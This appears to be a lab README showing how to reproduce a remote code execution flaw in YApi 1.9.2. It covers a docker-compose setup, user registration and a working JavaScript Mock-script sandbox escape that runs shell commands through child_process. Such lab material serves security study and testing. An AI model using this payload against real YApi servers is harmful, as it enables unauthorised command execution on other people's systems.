 # YApi Unauthenticated Registration and Mock Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

YApi is a API management tool developed by Node.JS. If registration of the YApi server is enabled, attackers will be able to execute arbitrary Javascript code in the Mock page.

References:

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## Vulnerability Environment

Execute following command to start a YApi server 1.9.2:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:3000` to see the index page of the YApi.

## Vulnerability Reproduce

Register a normal user then create a project and an interface:

![](1.png)

![](2.png)

There is a "Mock Tab" that you can input JavaScript code, put the evil code into textarea:

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

Then, go back to the preview tab and see the Mock URL:

![](4.png)

Open that URL, Mock script is executed and you can see the output:

![](5.png)
